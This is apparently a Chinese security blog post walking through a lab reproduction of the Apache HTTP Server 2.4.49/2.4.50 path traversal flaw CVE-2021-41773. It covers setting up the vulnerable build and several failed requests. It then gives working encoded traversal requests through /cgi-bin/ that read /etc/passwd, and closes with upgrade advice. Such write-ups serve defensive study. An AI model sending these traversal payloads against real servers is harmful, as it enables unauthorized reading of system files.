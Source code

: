 #  CVE-2021-41773 漏洞复现：从失败到成功的探索  
原创 ralap  网络个人修炼   2025-06-24 01:00  
  
近期在安全设备上发现多起利用 CVE-2021-41773 漏洞的攻击事件，借此机会记录对该漏洞的分析及复现过程，分享从失败尝试到成功复现的探索心得。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13RVS1DQFguRxQcKOojljbwyrUOtOicib9PzvbnpKsBHb8icChxvHHhXw1w/640?wx_fmt=png&from=appmsg "")  
  
  
一、漏洞原理  
  
CVE-2021-41773 是 Apache HTTP Server 2.4.49 版本中发现的一个严重路径遍历和命令注入漏洞。当服务器启用 CGI 脚本处理时，攻击者可通过构造特殊格式的 URL，利用编码绕过机制读取服务器任意文件，甚至执行系统命令。  
  
漏洞的核心在于 Apache 对 URL 中编码的路径遍历序列（如`%2e%2e`表示`..`）处理不当，导致在解析 CGI 请求时绕过了正常的目录访问限制。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13GLjRgwqHiczQibiboJMmMfAQKbkxficIzHh6UUl4I704RicHmvaMkvMicyicQ/640?wx_fmt=png&from=appmsg "")  
  
  
二、编译安装 Apache 2.4.49  
  
1. 环境准备  
  
由于系统默认通过 yum 安装的 Apache 版本为 2.4.6，无法复现漏洞，因此需手动编译安装 2.4.49 版本。首先，确保系统已安装编译所需依赖：  
```
yum install -y gcc make pcre-devel zlib-devel openssl-devel
```  
  
2. 下载源码并编译安装  
  
执行以下命令下载 Apache 2.4.49 源码包并进行编译安装：  
```
wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz
tar -zxvf httpd-2.4.49.tar.gz
cd httpd-2.4.49
./configure --prefix=/usr/local/httpd
make && make install
```  
  
  
三、配置 Apache 服务器  
  
编辑配置文件 /usr/local/httpd/conf/httpd.conf，将第 207 行的：  
```
Requireall denied
```  
  
修改为：  
```
Requireall granted
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13dqeXDQUjXIPXib0Sda17EkxeuzqEb5caw65mOaib8siaiabias2riaKoicibKw/640?wx_fmt=png&from=appmsg "")  
  
此修改允许所有来源访问，方便后续漏洞复现测试。保存配置后，启动 Apache 服务：  
```
/usr/local/httpd/bin/apachec
```  
  
启动成功后，可通过浏览器访问服务器 IP，确认 Apache 默认欢迎页面正常显示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13oKcicO9fULqq3VBfjichvSBEzEnzGS4Wd3edRic1miaE3WydxZD9pGrLuA/640?wx_fmt=png&from=appmsg "")  
  
  
四、复现漏洞  
  
1. 初始尝试（失败）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfLQ3c8ynRDO17dGqrOInyNNb7J1fflCsABC5JQI3dCYyJ9Qg6Y0PV0ggj6Czfyvw3hMj32pmtublA/640?wx_fmt=png&from=appmsg "")  
  
使用 BurpSuite 按POC发送以下请求：  
```
GET /.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13cOyN2p7XLxnzsVJgZUDryQ2zMfVLMUYEmsYA3durAYxhhzbiaHCWfBw/640?wx_fmt=png&from=appmsg "")  
  
以及其他变体请求：  
```
GET /.%2e/./%2e%2e/../%2e%2e/../%2e%2e/../etc/passwd HTTP/1.1
GET /.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
GET /./.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```  
  
均未成功获取目标文件内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13dzfQt4tRurCgr1fdl2KIrpcPYOQcV4oYqajAEPs9vcibLOmd3pJvicNA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13pIWNqdyCY7t9tQSEEbUpclxHcwYH5YTEQ9U0k4PlpOQ6wOmUHFEicjw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13ianAaSvIiaHphmPqSicYCpGsbpficOGmu5QwY6SLBAHUZE8tlPpiajHTuNA/640?wx_fmt=png&from=appmsg "")  
  
2. 关键突破（成功）  
  
经过多次尝试，发现当请求路径包含 /cgi-bin/ 时，漏洞得以成功复现。发送以下请求：  
```
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13icwzCTZVmpCUgMdHaO0Bh42AEicXzw1dffo27gNShRP0VGK0xtTKicAQw/640?wx_fmt=png&from=appmsg "")  
  
同样，Apache 2.4.50 版本也存在类似漏洞，通过变体请求：  
```
GET /cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd HTTP/1.1
```  
  
也可以成功读取目标文件内容。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13pA9GRhgYKT1ibxAIRI4mS3OBcQmsQ2LSMSTsgUuWqEr5tDKup4JvKzA/640?wx_fmt=png&from=appmsg "")  
  
  
  
五、漏洞修复建议  
  
针对 CVE-2021-41773 漏洞，最直接且有效的修复方式是将 Apache HTTP Server 升级至官方最新版本，目前最新版本为 2.4.63。升级后，该漏洞已被彻底修补。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5y2fUaoQPfKmRv5UNzUfQdkQhzPjOj13JAXclyZTvnbcx4YvP7bWJMfunrrmn2rKGQQCassQqRnuH1srPtxCJw/640?wx_fmt=png&from=appmsg "")  
  
  
  
参考链接  
  
https://httpd.apache.org/security/vulnerabilities_24.html  
  
https://www.secrss.com/articles/34890  
  
https://www.jianshu.com/p/3076d9ec68cf  
  
https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md  
  
  
  
-End-  
  
  
  
**如果觉得我的分享有用**  
  
**[点赞+分享****+关注]**  
  
  
